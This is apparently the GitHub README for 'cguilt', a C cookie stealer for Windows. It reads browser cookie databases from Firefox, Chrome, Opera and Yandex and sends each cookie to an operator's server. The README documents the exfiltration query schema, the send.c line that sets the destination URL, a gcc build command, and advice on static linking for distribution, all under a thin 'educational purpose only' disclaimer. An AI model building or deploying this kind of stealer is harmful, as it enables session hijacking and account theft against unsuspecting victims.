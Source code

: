 # cguilt
Complete raw cookie stealer for MS Windows. Educational purpose only. Have runtime dependencies, such as `libcurl`. Binaries are not distributed for obvious reason. Also cookies are not decrypted for some reason, but I'm one hundred percent working on it. Maybe.

Working principe just pretty simple: first checks what browsers are currently installed on the local machine. There is only four variants for now *(Firefox, Chrome, Opera, Yandex)*, then reads their cookie file databases and sends content to your server through API requests. Really simple, huh.

If you want to build your own binary, click ![here](https://github.com/vulpes-solis/cguilt#build). You also you need a serverside to accept incoming POST requests with some query params in it. To check the template of imcoming params, click ![here](https://github.com/vulpes-solis/cguilt#query-template).

## query template
In incoming API requests query schema has three parametrs:
1. `host`. Cookie host value. Cguilt sending cookies one-by-one, so the one request is the one cookie pair. String, max 128 chars long.
2. `value`. Cookies content value. String, max 1024 chars long.
3. `b_type`. Browser type. Not exactly every browsers here, but only Chromium in general (= 1) and Gecko (= 2).

## build
Install `libcurl` and `sqlite3` libs. Before compilation change destination server adress in 40th string in `send.c`:
```c
curl_easy_setopt(curl, CURLOPT_URL, "http://127.0.0.1:5000/api_post");
```
Compile everything.
```bash
$ gcc -o <name> main.c send.c `pkg-config --cflags --libs sqlite3 libcurl`
```
Also *if you want to distribute your own binary, which I one hundred percent condemn* you need to link the `libcurl` library as static, because it's required in runtime.

## quo vadis?
As it is can be somehow comnsidered harmful, the main purpose of this thing is practice and education. There is no goal of anything else. If you got a bug or just want to help to improve this thing - you are always welcome. Send bugreports in issues. 
